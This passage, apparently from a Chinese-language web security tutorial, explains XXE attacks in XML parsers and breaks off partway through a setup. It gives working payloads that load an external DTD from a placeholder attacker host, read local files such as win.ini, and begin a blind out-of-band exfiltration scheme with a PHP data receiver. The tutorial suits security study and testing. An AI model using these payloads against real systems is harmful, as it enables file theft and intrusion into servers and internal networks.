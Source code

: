 ```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
```

外部evil DTD中的内容

```xml
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini” >
```



![img](Image/图像 2.png)

当然也可以进行内网站点的入侵。

 

![img](Image/图像 3.png)

- 以上任意文件读取能够成功，除了DTD可有引用外部实体外，还取决于有输出信息，即有回显。那么如果程序没有回显的情况下，该怎么读取文件内容呢？需要使用blind xxe漏洞去利用。

 

### 无回显的情况

#### blind xxe漏洞方案1：

- 对于传统的XXE来说，要求攻击者只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，如果没有回显则可以使用Blind XXE漏洞来构建一条带外信道提取数据。

1. 创建test.php写入以下内容：

```php
<?php 
file_put_contents("test.txt", $_GET['file']) ; 
?>
```

2. 创建index.php写入以下内容：

```php
<?php 
$xml=<<<EOF 
<?xml version="1.0"?> 
<!DOCTYPE ANY[ 
<!ENTITY % file SYSTEM "file:///C:/test.txt"> 
<!ENTITY % remote SYSTEM "http://localhost/test.xml"> 
%remote;
%all;
%send; 
]> 
EOF; 
$data = simplexml_load_string($xml) ; 
echo "<pre>" ; 
print_r($data) ; 
?>
```
